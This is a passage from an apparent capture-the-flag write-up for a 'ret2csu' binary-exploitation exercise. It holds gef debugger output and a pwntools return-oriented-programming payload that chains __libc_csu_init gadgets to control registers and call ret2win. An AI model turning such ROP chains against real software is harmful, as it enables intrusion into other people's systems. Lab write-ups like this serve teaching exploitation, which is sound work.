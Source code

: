 ```python
p.interactive()
```

let's try it.

```
 → 0x7f2a9ae009d7 <ret2win+4>      sub    rsp, 0x30
   0x7f2a9ae009db <ret2win+8>      mov    QWORD PTR [rbp-0x18], rdi
   0x7f2a9ae009df <ret2win+12>     mov    QWORD PTR [rbp-0x20], rsi
   0x7f2a9ae009e3 <ret2win+16>     mov    QWORD PTR [rbp-0x28], rdx
   0x7f2a9ae009e7 <ret2win+20>     mov    QWORD PTR [rbp-0x10], 0x0
   0x7f2a9ae009ef <ret2win+28>     movabs rax, 0xdeadbeefdeadbeef
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2csu", stopped 0x7f2a9ae009d7 in ret2win (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f2a9ae009d7 → ret2win()
[#1] 0x40068d → __libc_csu_init()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i r rdi rsi rdx
rdi            0xdeadbeef          0xdeadbeef
rsi            0xcafebabecafebabe  0xcafebabecafebabe
rdx            0xd00df00dd00df00d  0xd00df00dd00df00d
```

looking at the debugger our rdi is not correct yet but other registers are.
what can we do here? maybe we can try to `pop rdi` to `0xdeadbeefdeadbeef` first
and then calling the gadgets from `csu` later on so let's try that.

from [this paper](https://www.scs.stanford.edu/brop/bittau-brop.pdf) we can do
`pop rdi` directly by offsetting the `pop` gadgets from `__libc_csu_init` and
here's the new payload.

```python
payload = flat([
        padding,
        pop + 0x9,
        arg_1,
        pop,
        0,
        0,
        ret2win_got,
        arg_1,
        arg_2,
        arg_3,
        mov,
],word_size=64)
```

let's try it.

```
 → 0x7fe2490009d7 <ret2win+4>      sub    rsp, 0x30
   0x7fe2490009db <ret2win+8>      mov    QWORD PTR [rbp-0x18], rdi
   0x7fe2490009df <ret2win+12>     mov    QWORD PTR [rbp-0x20], rsi
   0x7fe2490009e3 <ret2win+16>     mov    QWORD PTR [rbp-0x28], rdx
   0x7fe2490009e7 <ret2win+20>     mov    QWORD PTR [rbp-0x10], 0x0
   0x7fe2490009ef <ret2win+28>     movabs rax, 0xdeadbeefdeadbeef
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2csu", stopped 0x7fe2490009d7 in ret2win (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7fe2490009d7 → ret2win()
[#1] 0x40068d → __libc_csu_init()
```